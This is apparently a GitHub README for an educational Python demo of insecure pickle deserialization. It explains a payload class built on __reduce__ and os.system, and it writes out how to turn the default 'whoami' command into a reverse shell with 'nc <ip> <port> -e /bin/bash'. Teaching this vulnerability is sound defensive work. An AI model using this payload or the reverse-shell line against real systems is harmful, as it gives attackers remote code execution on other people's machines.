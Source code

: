 
# **Insecure_Deserialization**

## **Overview**
`Insecure_Deserialization` is a simple Python program designed to demonstrate and explore the concept of insecure deserialization in a hands-on and practical way. The program includes a **serializer** and a **deserializer** to showcase how serialized objects can be manipulated and executed.

This program is primarily for educational purposes, aiming to provide insights into the risks and potential exploitation of insecure deserialization. Additionally, it can be adapted to execute a reverse shell by replacing the default command (`whoami`) with something like `nc <ip> <port> -e /bin/bash`.


## **Features**
- **Serialization (`serializer.py`)**:
  - Encodes an object containing a malicious payload into a serialized format.
  - Outputs the serialized payload in Base64 format.

- **Deserialization (`deserializer.py`)**:
  - Decodes and executes the serialized payload.

- **Custom Commands**:
  - Modify the default `whoami` command in the serializer to execute custom shell commands or even establish a reverse shell.


## **Usage**
### **1. Serialization**
Run the `serializer.py` script to generate a malicious payload:

```
python serializer.py
```

### **2. Deserialization**
Copy the serialized Base64 string and run the `deserializer.py` script. Paste the string as input when prompted:

```
python deserializer.py
```

## **Modifying the Payload**
The default payload executes the `whoami` command. To change the command:

1. Open `serializer.py`.
2. Modify the `return (os.system, ("whoami",))` line in the `Evil` class:
   
   ```
   return (os.system, ("<your_command>",))
   ```
3. For a reverse shell, you can use:
   
   ```
   return (os.system, ("nc <ip> <port> -e /bin/bash",))
   ```

## Example of use via terminal in kali linux (in this case, without venv):

<div align="center">
  <img src="https://github.com/user-attachments/assets/fda334c0-a684-496f-8185-c6ea203e89fc">
</div>

## Example output in pycharm (with venv activated):

<div align="center">
  <img src="https://github.com/user-attachments/assets/3a453f5d-11c9-42d5-b724-83ab5154dac2">
</div>

## **Warnings**
- **Educational Purposes Only**: This program is intended to teach the concept of insecure deserialization and should not be used for malicious purposes.
- **Security Risks**: The deserialization of untrusted data is a critical security risk. Avoid using insecure serialization methods like `pickle` in production applications.
- **Test Environment**: Always use this program in a controlled and isolated environment, such as a virtual machine or sandbox.


## **How It Works**
1. The **`Evil` class** in `serializer.py` uses the `__reduce__` method to define a malicious command.
2. The `pickle.dumps` function serializes the `Evil` object.
3. The serialized payload is Base64-encoded and displayed.
4. In `deserializer.py`, the Base64-encoded payload is decoded and deserialized using `pickle.loads`, triggering the execution of the malicious command.


## **Disclaimer**
This program is for educational and testing purposes only. The author is not responsible for any misuse of this code.


## **Setting Up the Environment**

To ensure compatibility and proper setup, it is recommended to use a virtual environment (**venv**). Follow the steps below to create and activate your own virtual environment:

### **1. Create a Virtual Environment**
Run the following command to create a virtual environment in the project directory:

```
python -m venv venv
```

### **2. Activate the Virtual Environment**
Activate the virtual environment based on your operating system:

- **On Windows**:
  
  ```
  venv\Scripts\activate
  ```
- **On Linux/MacOS**:
  
  ```
  source venv/bin/activate
  ```

### **3. Deactivate the Virtual Environment**
When you're done working on the project, deactivate the virtual environment by running:

```
deactivate
```

---

### **Note on Virtual Environments**
The virtual environment (**venv**) is not included in this repository to reduce its size and avoid compatibility issues across different operating systems. Instead, you can generate it locally by following the steps above. 
